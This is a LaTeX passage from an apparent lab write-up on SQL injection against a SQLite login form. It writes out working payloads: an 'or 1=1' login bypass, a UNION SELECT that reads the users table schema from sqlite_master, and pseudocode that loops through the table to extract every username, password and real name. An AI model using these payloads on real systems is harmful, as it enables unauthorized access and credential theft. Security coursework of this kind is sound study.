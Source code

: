 \documentclass[12pt,letterpaper]{article}
\begin{document}
In the end, it was much easier to find this data then I thought it would
be:
\begin{verbatim}
' UNION SELECT sql,null,null FROM sqlite_master WHERE tbl_name = "users"--
\end{verbatim}

Which returns:

\begin{figure}[H]
	\centering
	\includegraphics[width=4in]{schema.png}
	\caption{Full schema of table}
\end{figure}

Because the \verb!sql! column is literally the information used to make the
table, all we have to do is get the table information for \verb!users! (null
padded to be the same size as users) from \verb~sqlite_master~.

\section*{7. Attack to find the entire contents of the table}

We know from earlier attempts that the first username is admin, using
the username field query:
\begin{verbatim}
' or '1'='1' --
\end{verbatim}

We can then find the next username by:
\begin{verbatim}
' UNION SELECT MIN(uname), null, null from users where uname > "admin" --
\end{verbatim}

Yielding the username \verb~arnold~

And we can find the rest of the values in the table by the following algorithm:
\begin{verbatim}
user = query(' or '1'='1' --)
results = [user]
while user is not empty:
    user = query(' UNION SELECT MIN(uname), null,
                 null from users where uname > $user --)

    password = query('' UNION SELECT pwd, null,
                     null from users where uname=$user --)

    realname = query('' UNION SELECT realname, null,
                     null from users where uname=$user --)
    add user to results
\end{verbatim}
\end{document}
